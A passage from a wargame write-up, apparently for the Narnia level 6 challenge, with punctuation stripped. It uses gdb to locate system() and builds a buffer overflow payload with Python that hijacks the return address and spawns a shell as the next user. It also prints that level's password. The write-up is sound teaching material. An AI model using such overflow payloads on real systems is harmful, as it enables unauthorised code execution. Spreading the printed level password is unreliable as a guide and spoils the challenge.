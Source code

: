 Now with a breakpoint at main  we can see all of the corresponding addresses to each assembly instruction  Most notably  system call is at 0x565555c5 so it follows that we should set a breakpoint there 

   highlight bash   
 gdb  b  0x565555c5               Breakpoint 2 at 0x565555c5 gdb  c  
Continuing   
  
Breakpoint 2  0x565555c5 in main     
 gdb  x s  edx  
0x565555c5       ls  la 
   endhighlight   

We can see that the ls  la command is in the edx register with an address of 0x565555c5  To get the address of the system function  we can simply type the following in the gdb console 

   highlight bash   
 gdb  p system 1     text variable  no debug info   0xf7e4c850  system 
   endhighlight   

The system is located at 0xf7e4c850 

     Exploit

Therefore  we can flood the buffer with 8 bytes before overwriting the eip  Accordingly  the exploit will look like the following 

COMMAND   JUNK   x50xc8xe4xf7         JUNK

Using this exploit template  we can run the narnia6 binary in gdb and pass this payload  

   highlight bash   
 gdb  r   python  c  print  ls   A  6  x50xc8xe4xf7       B  4    
The program being debugged has been started already   
Start it from the beginning   y or n  y  
Starting program   narnia narnia6   python  c  print  ls   A  6  x50xc8xe4xf7       B  4    
sh  1  lsAAAAAAP  not found  
 Inferior 1  process 21970  exited with code 01 
   endhighlight   

Note how the command   the junk  namely  ls     A    6  is equal to eight bytes

We can see that the sh command is trying to execute lsAAAAAAP  which is not a command  However  this can be easily resolved by adding a semicolon to the end of the ls command using one less  A  

   highlight bash   
 gdb  r   python  c  print  ls    A  5  x50xc8xe4xf7       B  4    
Starting program   narnia narnia6   python  c  print  ls    A  5  x50xc8xe4xf7       B  4    
narnia0    narnia1    narnia2    narnia3    narnia4    narnia5    narnia6    narnia7    narnia8  
narnia0 c  narnia1 c  narnia2 c  narnia3 c  narnia4 c  narnia5 c  narnia6 c  narnia7 c  narnia8 csh  1  AAAAAP  not found  
 Inferior 1  process 22579  exited with code 01 
   endhighlight   

The ls command was successfully executed  Running the narnia6 binary outside of gdb and implementing the sh command instead  we get a shell as narnia7 

   highlight bash   
narnia6 narnia  narnia    narnia6   python  c  print  sh    A  5  x50xc8xe4xf7       B  4    
  whoami  
narnia7  
  cat  etc narnia pass narnia7  
ahkiaziphu
   endhighlight   

